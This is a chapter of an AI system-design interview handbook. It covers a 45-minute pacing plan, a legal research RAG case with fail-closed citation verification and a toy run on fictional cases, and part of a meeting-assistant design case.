# Chapter 14 — AI Case Studies

[Chapter 13](../13-ai-system-design-and-genai-products/README.md) gave the framework and building blocks. This chapter is **practice under the clock**: four product-centric AI system design walkthroughs and one design critique (Part I), then seven model-centric generative-AI cases (Part II), each run as a strong candidate would in 45 minutes. You aren't expected to invent architecture — you're expected to **recognise** which known design a question is built on, adapt it, and explain every trade-off with numbers.

**What you'll learn**

1. How to **pace** a 45-minute case: the clock, exit sentences, interviewer moves, a self-grading rubric.
2. **Legal research assistant** — retrieval-augmented generation (RAG) where a wrong citation is catastrophic.
3. **AI meeting assistant** — three latency regimes in one product, privacy as architecture.
4. **Text-to-image at scale** — GPU-fleet economics: queues, **utilisation** (share of time GPUs are busy), tiers, envelope math done live.
5. **Autonomous coding agent** — a bounded loop made safe by tests, a **sandbox** (isolated environment where code can't harm anything) and **pull-request** review (a proposed code change a person reviews before merge).
6. **Critiquing a design** — findings in severity order, each with consequence and fix, delivered as a plan.
7. A **comparison table** across the five cases.
8. **Part II — model-centric cases**, where the model choice is the design: **email sentence completion** (a tiny LM under a keystroke budget), **machine translation** (one multilingual model for 100+ languages), **image captioning** (grounded **alt text** — the description a screen reader reads aloud), **face generation with GANs**, **high-resolution image synthesis** (latents — compressed representations — and cascades), **personalised headshots** (per-user LoRA fine-tuning — cheaply training small add-on weight matrices — with consent) and **text-to-video** (spacetime latents, multi-GPU jobs), with a second comparison table.

Every case uses one template: *requirements → approach (data and model) → architecture → evaluation → scaling and cost → safety → failure modes → follow-ups (Q→A)*, then *what separates levels and variations*, a **runnable toy** and a TL;DR. The classic-ML cases of the same family — music discovery, harmful content at platform scale, visual search — are in the ML Handbook, [Chapter 17](../../../ml/chapters/17-ml-case-studies-1/README.md) and [Chapter 18](../../../ml/chapters/18-ml-case-studies-2/README.md).

| Script | Case | What it demonstrates |
|---|---|---|
| `code/legal_citation_verifier.py` | Legal | Hybrid retrieval with rank fusion, per-claim verification, fail-closed |
| `code/meeting_pipeline.py` | Meetings | WER, map-reduce summary, sourced action items, ACL-bounded Q&A, deletion, comb load |
| `code/t2i_fleet_sim.py` | Text-to-image | Envelope math, priority queues, autoscaling lag, warm pool, dead-letter queue |
| `code/coding_agent_loop.py` | Coding agent | Bounded loop, protected tests, command allowlist, draft PR on exhaustion |
| `code/design_critic.py` | Critique | Severity-ordered findings with fixes and a sequenced plan |
| Seven more toys for §14.8–§14.14 | Part II | Listed at the start of Part II |

**How to use this chapter.** Read only the question, close the book and talk through a design **out loud with a timer**; whatever the walkthrough covers that you missed is your study list — interviews grade what you can *produce*, not what you recognise.

---

## 14.1 How to run a case study

### What it is
A time plan for the interview. Most failing candidates don't lack knowledge — they run out of time before evaluation, failures or cost are spoken, and unmentioned topics give no evidence. Minutes follow the seven steps of [§13.4](../13-ai-system-design-and-genai-products/README.md).

### How it works — the 45-minute clock


*Figure — The forty-five minute clock, phase by phase (course diagram)*

Each phase ends with an **exit sentence** said aloud, even if more could be said.

| Minutes | Framework steps | Phase | Say this, then move on |
|---|---|---|---|
| 0–8 | 1–2 | Frame and define success | "This is [known system]; target [metric = value], latency [X], scale [Y], cost [Z]; [W] out of scope. OK?" |
| 8–13 | 3 | Data and labels | "Ground truth (the real correct answer) is [source], lagging by [delay]; freshness [tier]." |
| 13–18 | 4 | Model | "Start with [simple thing]; move to [next] only if [evidence]." |
| 18–30 | 5 | Architecture | Done when every arrow carries three labels: how long, how much, what happens if it breaks |
| 30–38 | 6 | Loop and evaluation | "Nothing ships unless [offline metric] holds; [online metric] picks the winner." |
| 38–43 | 7 | Failures and cost | The three likeliest breakages with responses; then cost per unit × volume |
| 43–45 | — | Slack | Held for follow-ups, not spent. |

### Three techniques that protect the clock
1. **Announce the plan in minute one** — the interviewer can redirect you early.
2. **Timebox out loud** — "Two minutes on data, then back to it if you want depth."
3. **Park side topics** — acknowledge in one sentence, note it, return to scope.

### Handling the interviewer


*Figure — Five follow-up patterns, and the stance for each (course diagram)*

| Interviewer move | Example | Stance |
|---|---|---|
| **Redirect** | "Skip ahead to the architecture." | Comply at once, carrying your numbers: "Then I'll assume quality bar X and budget Y." |
| **Stress test** | "10× the traffic", "the provider is down" | Failure/cost questions arriving early: give the **fallback sequence** (ordered backup behaviours), then the alarm that detects it |
| **Depth probe** | "Explain the reranker (a second, more careful ranking pass) in detail." | Two levels deep — mechanism, then trade-off ("a **cross-encoder** reads query and passage together: accurate, too slow beyond a shortlist") — then *offer* a third |
| **Disagreement** | "I'd have fine-tuned there." | Name the deciding variable: "Changing private facts → retrieval; stable format or behaviour gap → prompting, then fine-tuning" |
| **Silence** | — | Probably note-taking: continue, or ask whether more detail would help |

### The recognition move
Within two minutes, **name the familiar design inside the question**: "Legal research = company-document RAG where a wrong answer is career-ending"; "a coding agent = a capped agent loop whose sandbox decides which actions are possible". It gives a shared map — which you must still adapt. If nothing is familiar, use the **family test** ([§13.3](../13-ai-system-design-and-genai-products/README.md)): score → funnel, content → pipeline, action → loop.

### Score yourself like an interviewer
A practice rubric (real rubrics vary by company and role):


*Figure — Five scoring dimensions: minimum bar vs strong-hire bar (course diagram)*

| Dimension | Pass | Strong hire |
|---|---|---|
| Problem navigation | Scopes; needs occasional nudges | Owns the timing, closes each phase aloud, parks tangents |
| Data and metrics | Names plausible metrics when asked | Volunteers targets, label delays, freshness; says where a proxy (measurable stand-in for the real goal) misleads |
| Architecture and trade-offs | Sound diagram of the right shape | Every connection has a budget and failure plan; rejected options named with what would flip them |
| Production maturity | Mentions monitoring once prompted | Volunteers the loop, release gates, fallbacks, failure and cost lists |
| Communication | Clear structure | Plan up front, timeboxes aloud, ends on loop, risks and price |

A dimension stuck at "pass" for two practice runs is your study list; record yourself — you won't notice your own gaps.

### Self-check
1. **Q:** What ends the architecture phase? **A:** Every arrow has a latency, a cost posture and a failure behaviour.
2. **Q:** "The provider is down"? **A:** Walk the fallback sequence, then name the alarm that catches it.

### TL;DR
8 / 5 / 5 / 12 / 8 / 5 / 2 minutes, an exit sentence per phase, plan in minute one, timebox aloud, park side topics, recognise the known system.

---

## 14.2 Case: legal research assistant

> **The question (paraphrased).** A legal-software vendor wants an AI research tool for law firms: answers drawn from court decisions, **statutes** (laws passed by a legislature) and the firm's private files, with trustworthy citations — one made-up citation in a court filing can cost the vendor the client and the lawyer their reputation. About 50,000 lawyers will use it.

### Requirements (minutes 0–8)
**Recognition.** "Enterprise RAG ([Chapter 7](../07-embeddings-vector-databases-and-rag/README.md)) with the strictest confidentiality and verification needs imaginable. Claims get grounding checks *before* release; when evidence is thin, the product returns research pointers or declines. None of this replaces the attorney's own review."

**Success metrics — stakes first.**
- *Primary (positive):* **attorney-verified usefulness** — share of answers reliable enough to build on.
- *Binding (negative) metrics — these decide the launch:* **fabricated-citation rate** (bar: *none found* in the eval sample — report sample size and an **upper confidence bound**, the highest true rate still consistent with what you saw, since none found ≠ none possible); **unsupported-claim rate**, per claim against retrieved text; **refusal correctness in both directions** (refusing answerable questions also fails).
- *Latency is the relaxable constraint* — up to ~30 s for a verified synthesis (validate with users), spent on verification deliberately. *Cost* is argued per query against billable lawyer time saved.

**Scope.** Research assistance only — no drafting filings, no "legal advice" framing; English, US law for v1. Firm documents are strictly confidential: **tenant isolation at law-firm grade** (each firm's data fully separate), including **ethical walls** (barriers inside one firm stopping a team seeing another matter's files, avoiding conflicts of interest).


*Figure — The primary metric is positive; the binding metrics are negative (course diagram)*

### Approach: data and model (minutes 8–18)
**Legal text is highly structured, and plain RAG throws that structure away** — exploiting it is where this case gets deep.
- Case law is a **citation graph**: decisions are nodes, citations edges to earlier authorities; later cases can affirm, distinguish or overrule earlier ones.
- Law has a **validity dimension**: each **chunk** (retrieval-sized piece) carries **jurisdiction** (whose law applies), court, decision date and **treatment status** (good law, amended, superseded, overruled — how later rulings handled it). Treatment can apply to part of a case, and other jurisdictions can still be persuasive, so **metadata** *flags*; it doesn't decide.
- **Chunk along the law's own structure**: judgments by section, statutes by clause, each tagged with its citation.


*Figure — Citation relationships and treatment metadata support legal review (course diagram)*

**Retrieval.** Questions mix exact identifiers (statute numbers, party names → **BM25** keyword ranking) with fuzzy concepts (→ **embeddings**, meaning vectors), so run **hybrid retrieval**, fuse, then **rerank hard** with a cross-encoder — the latency budget pays for top precision ([§7.7](../07-embeddings-vector-databases-and-rag/README.md)). Extract jurisdictions from the question (ask when ambiguous) and filter by them, keeping relevant cross-jurisdiction authority visible.

**Model posture.** Choose the generator on domain evals; low **temperature** reduces variation but doesn't make answers true. Sources do the knowing, the model the synthesis. Fine-tuning may help format but **cannot replace retrieval of current authority** — **weights** can't be checked for whether a case is still good law (what lawyers call "Shepardizing").

### Architecture (minutes 18–30)



- **Every statement carries a page-level citation plus the supporting quote**, so it's quick to check.
- **Synchronous verification on every answer**, not a sample: per-claim **entailment checks** (does the passage support the statement? — the checker itself evaluated against attorney labels), exact-match checks that the cited document exists and contains the quote, and a fresh treatment look-up.
- **Structural prevention:** a citation that doesn't resolve to a real document *cannot be rendered* — a deterministic rule, not a request to the model.
- A failing claim is regenerated, removed or replaced by research pointers; then **re-check what remains** (removing a claim can leave a misleading conclusion). A list of the closest authorities is still useful — **refusal as a product**.


*Figure — Required checks run before release; attorney review remains necessary (course diagram)*

### Evaluation and the loop (minutes 30–38)
- Lawyer feedback is slow and partial — also pay for independent expert audits; keep firm-confidential content out of shared datasets.
- **Every user-flagged citation becomes a permanent regression test.**
- **Component evals**: the reranker scored on attorney-labelled relevance with **NDCG** (a ranking metric rewarding the best passages at the very top), gated like any model change.
- New decisions and treatment changes arrive under **freshness SLOs in hours** (SLO = promised target) — citing a ruling overturned days ago is exactly what a judge notices.

### Scaling and cost
- 50,000 attorneys × (say) 10 queries/day = 500,000/day ≈ 6/s — modest **QPS**; the cost is per-query depth (retrieval + rerank + generation + verification).
- Treat ~$3/query as an illustrative budget and itemise it. Licence fees for case law and treatment data may be the biggest line — and the **moat** (an advantage competitors can't easily copy).

### Safety and privacy
- Isolation at **three layers**: retrieval (per-tenant filters and ethical walls), training (firm documents never train a model other firms use), caches (per tenant); plus contractual **zero-retention inference** (provider keeps no copy of prompts or outputs; verify per endpoint).
- Retrieved text is untrusted for instructions ([§12.4](../12-safety-ethics-governance/README.md)).

### Failure modes
| Failure | Response |
|---|---|
| Verification service down | **Fail closed**: no unverified synthesis; research pointers only |
| Treatment data stale | Show its as-of time; limit conclusions depending on current status |
| Retrieval degraded | Research-pointer mode: citations without synthesis |
| A fabricated citation reaches an attorney anyway | Incident process below |

### Follow-ups (Q→A)
- **Q: "A lawyer still finds an invented citation."** A: First: *was the citation in the retrieved context?* — separating "the generator invented it" from "the verifier missed it". The existence check is **deterministic**, so a miss means a bypass, bad source mapping, stale metadata or a verifier bug. Fix, add to the regression suite, notify affected users.
- **Q: "Why not fine-tune on all the case law?"** A: Knowledge vs behaviour — and law changes; a retrieval layer carries treatment status, frozen weights can't be checked ([§8.1](../08-prompting-vs-finetuning-vs-rag-and-llm-evaluation/README.md)).
- **Q: "A partner wants 5 seconds, not 30."** A: Change the *artefact*, not the checks: a fast mode returns checked research pointers and quotes; the verified synthesis follows asynchronously. Sell speed as a tier; never buy it by weakening verification.
- **Q: "A firm demands on-prem"** (installed in the customer's data centre). A: Licensed feeds (redistribution rights), the shared eval loop (per-tenant evals) and operations (versioned index and model artefacts) break; the architecture survives, the learning loop fragments.
- **Q: "California law, Delaware company."** A: Extract both jurisdictions, retrieve per jurisdiction, answer comparatively with per-claim citations, surface conflicts.

### What separates levels, and variations
Mid-level builds correct RAG with citations, adding verification when pushed; senior leads with the negative metrics and trades latency for verification out loud; staff separates *enforceable* checks (a citation must resolve to render) from *probabilistic* ones (relevance, support, treatment) that need evaluation, and names licensing as both cost and moat. **Variations:** a *medical literature assistant* (validity = retractions and superseded guidelines; "jurisdiction" = patient context) and a *financial-compliance assistant* (rules cross-reference like case law; the audit trail is the product).

### Toy: per-claim verification (`code/legal_citation_verifier.py`)
Retrieval filters by jurisdiction, ranks with a small **BM25** and a toy semantic score, and fuses them with **reciprocal rank fusion** — score(d) = Σ 1/(k + rankᵢ(d)), k = 60 — which needs only ranks, not comparable scores. A scripted "LLM" drafts five claims with typical errors; the verifier checks each in order: citation resolves → was in retrieved context → quote found in source → a token-overlap support score ≥ 0.4 (stand-in for an entailment model) → not overruled; and raises if the service is unavailable (→ fail closed).

```
jurisdictions extracted: US-CA, US-DE
retrieved: ['Hale v. Northwind Foods', 'Marsh v. Delta Freight', 'Avery v. Brook Logistics']
  KEEP  Hale v. Northwind Foods      verified (support 0.88, good law)
  STRIP Ortiz v. Pell Mfg.           not in retrieved context (drafted from model memory; overruled)
  STRIP Reyes v. Summit Bank         citation does not resolve in corpus (cannot render)
  STRIP Marsh v. Delta Freight       quoted text not found in cited source
  KEEP  Avery v. Brook Logistics     verified (support 0.60, good law)

verified answer (each claim carries a pinpoint quote):
  * In California, constructive discharge requires aggravated or continuous intolerable conditions.
      [Hale v. Northwind Foods, 88 Cal.App.4th 55 (2001)] "a constructive discharge claim requires aggravated or continuous intolerable conditions"
  * The federal standard asks whether a reasonable person would feel compelled to resign.
      [Avery v. Brook Logistics, 212 F.3d 101 (2d Cir. 2004)] "a reasonable person would feel compelled to resign"
  research pointer (no verified claim): Marsh v. Delta Freight, 640 A.2d 12 (Del. 1996) [good law]
  (claims were removed: re-read what remains so it cannot mislead)

--- same query while the verification service is down ---
FAIL CLOSED: verification service unavailable -> research pointers only:
   - Hale v. Northwind Foods, 88 Cal.App.4th 55 (2001) [good law]
   ... (the other two authorities, as pointers)
```
(All cases fictional.) The invented case never renders; the overruled one is caught because it wasn't retrieved — the model "remembered" it; the misquote fails the exact-text check, so the Delaware question degrades to a research pointer. With the verifier down, the product fails closed.

### TL;DR
Enterprise RAG at maximum stakes: negative metrics bind the launch, latency is spent on synchronous per-claim verification, legal metadata (jurisdiction, treatment) shapes retrieval, unresolvable citations cannot render, refusal is a product, everything fails closed.

---

## 14.3 Case: AI meeting assistant

> **The question (paraphrased).** Build a meeting assistant for businesses: it sits in video calls, produces a transcript, writes a recap with to-dos, and afterwards answers questions over a team's whole meeting history. Scale: 100,000 customer companies, about 5 million meetings per week.

### Requirements (minutes 0–8)
**Recognition.** "Three subsystems, three latency regimes, one shared data path: a **real-time lane** (speech-to-text while people talk), an **async generation pipeline** (recaps and to-dos after the call — the job-queue pattern, where work waits for background workers; [System Design Fundamentals](../../../system-design-patterns/modules/00-system-design-fundamentals/README.md)), and **RAG over the meeting archive**." That hands the interviewer a map with three regions.


*Figure — Three latency regimes, one shared data path (course diagram)*

**Success — one set per subsystem.**
| Subsystem | Metric |
|---|---|
| Live transcription | **Word error rate (WER)** = (substitutions + deletions + insertions) ÷ words in the reference transcript — can exceed 100%; plus **speaker-attribution accuracy** |
| Summaries and action items | Model-assisted and human review; **edit rate** (useful but noisy). Wrong-owner action items are the most visible failure |
| Archive Q&A | Retrieval **recall** (share of relevant items found) and **faithfulness** (answers supported by transcripts) |

**Privacy is a first-class requirement** that shapes the design. **Scope:** post-call output and archive search; live translation and coaching named and parked. **Consent** (recording notices, per-jurisdiction recording laws) is a hard product gate.

**Scale.** 5M meetings/week ≈ 714K/day; at ~1 hour and ~10–20K tokens per hour of speech, ~7–14 billion transcript tokens/day into the summary pipeline.

### Approach: the data path (minutes 8–18)
**During the call.** Audio streams to **streaming ASR** (automatic speech recognition) with **speaker diarization** (who spoke when) — name them, don't design internals ([§10.6](../10-generative-models-beyond-text/README.md)). Partial transcripts land in a live store; small specialised models run regionally near the audio.

**After the call — a workflow, not an agent.** Every step is known, so a fixed pipeline wins on cost, latency, debuggability and evaluability:
1. Clean and segment the transcript by topic.
2. Summarise with **map-reduce**: summarise each segment independently (*map*), combine in one final pass (*reduce*) — context-budget management for long meetings.
3. Extract **to-dos** as records — who, by when, and the **exact words** that created them, linked to that transcript moment; an unsupported owner or date stays *unknown* pending confirmation.
4. Deliver only to recipients the meeting's sharing policy authorises.

**Into the archive.** Chunk by topic; tag each chunk with meeting, date, team, transcript version and **who may see it**. **ACLs** (access control lists) start from verified attendees and explicit shares under tenant policy, with explicit rules for guests and revoked access. Every read path — search, recaps, to-dos, downloads, emails — checks *current* permissions.

### Architecture (minutes 18–30)



- **Comb-shaped load.** Meetings end on the hour, so completions spike at the top of every hour, then lull — like a comb's teeth. That justifies the queue: work is absorbed and processed within a promised window ("summary within 10 minutes").


*Figure — Comb-shaped load: meetings end on the hour (course diagram)*

- **Summaries are versioned per-meeting artefacts** (artefact caching, not answer caching).
- **Archive answers link to the exact recording moment** — [Chapter 7](../07-embeddings-vector-databases-and-rag/README.md)'s citation pattern with a product-native anchor.
- **Cost routes by lane**: transcription is the volume cost; summaries use small-to-mid models; low-volume archive Q&A can use a frontier model.

